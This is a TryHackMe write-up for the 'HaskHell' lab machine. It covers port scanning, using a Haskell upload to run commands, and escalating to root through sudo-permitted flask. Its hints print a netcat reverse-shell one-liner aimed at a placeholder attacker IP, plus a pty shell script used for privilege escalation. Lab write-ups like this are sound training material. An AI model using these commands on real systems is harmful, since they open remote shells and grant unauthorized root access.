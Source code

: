 
# TryHackMe(THM) - HaskHell  - WriteUp

> Austin Lai | August 6th, 2021

---

<!-- Description -->

[Room = TryHackMe(THM) - HaskHell](https://tryhackme.com/room/haskhell)

Difficulty: **Medium**

You will learn basic knowledge and understanding of Haskell and get to know python - flask.

<!-- /Description -->

<br />

## Table of Contents

<!-- TOC -->

- [TryHackMeTHM - HaskHell  - WriteUp](#tryhackmethm---haskhell----writeup)
    - [Table of Contents](#table-of-contents)
    - [Task 1](#task-1)
        - [User Flag](#user-flag)
        - [root flag](#root-flag)

<!-- /TOC -->

<br />

## Task 1

### User Flag

For start, let get basic enumeration --- starting nmap and gobuster

Nmap result:

```text
Nmap scan report for 10.10.3.221
Host is up, received timestamp-reply ttl 61 (0.35s latency).
Scanned at 2021-08-06 17:46:07 Malay Peninsula Standard Time for 128s
Not shown: 4998 closed ports
Reason: 4998 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
5001/tcp open  http    syn-ack ttl 61 Gunicorn 19.7.1
```

Gobuster result:

![gobuster-result](gobuster-result.png)

Let check out on the site !

Main page:

![main-page](main-page.png)

Homework:

![homework-page](homework-page.png)

Uploads:

![uploads-page](uploads-page.png)

However, if you get gobuster result, you will get the below page:

![gobuster-result-page](gobuster-result-page.png)

Next, let get some basic understand of Haskell !

Specifically, research on how Haskell can invoke shell command.

If you haven't figure out, check out the hint given

<details><summary>Hint 1</summary>

[Haskell System Command](https://hackage.haskell.org/package/process-1.0.1.3/docs/System-Cmd.html)

</details>

<br />

Let's put it in practical ! Create a haskell shell script and submit to the link !

<details><summary>Hint 2</summary>

```haskell
import System.Cmd
 
main = system "ls"
```

</details>

<br />

Yeah, turn out with simple haskell script, we can execute command !

![haskell-script-execute-command](haskell-script-execute-command.png)

Next ! Let get reverse shell, shall we ?

<details><summary>Hint 3</summary>

```haskell
import System.Cmd

main = system "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOU_IP 8888 >/tmp/f"
```

</details>

<br />

And yes ! we get our reverse shell

![flask-reverse-shell](flask-reverse-shell.png)

Next, let's do some basic enum on the machine.

You will notice aside flask, there is another user available.

Check out what you can find.

<details><summary>Hint 4</summary>

```text
Check out the ssh, is there anything you can get?
```

</details>

<br />

Once you get the file, you will be able to login to the system!

Yeah, you get the user flag.

<br />

### root flag

Let's do enum again.

<details><summary>Hint 1</summary>

```text
Have you check sudo?
```

<details><summary>Hint 2</summary>

![prof-sudo-l](prof-sudo-l.png)

</details>

</details>

Once you get the possible PrivEsc exploit ...

Let's check out how you can use flask to get PrivEsc ! Google and research !!!

<details><summary>Hint 3</summary>

```text
That's right !

You can create a python shell script as flask using python.

Set the FLASK_APP to the shell you created
```

<details><summary>Hint 4</summary>

shell.py

```python
import pty
pty.spawn('/bin/bash')
```

</details>

<details><summary>Hint 5</summary>

![flask-privesc](flask-privesc.png)

</details>

</details>

And yes, you get the root flag !

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB




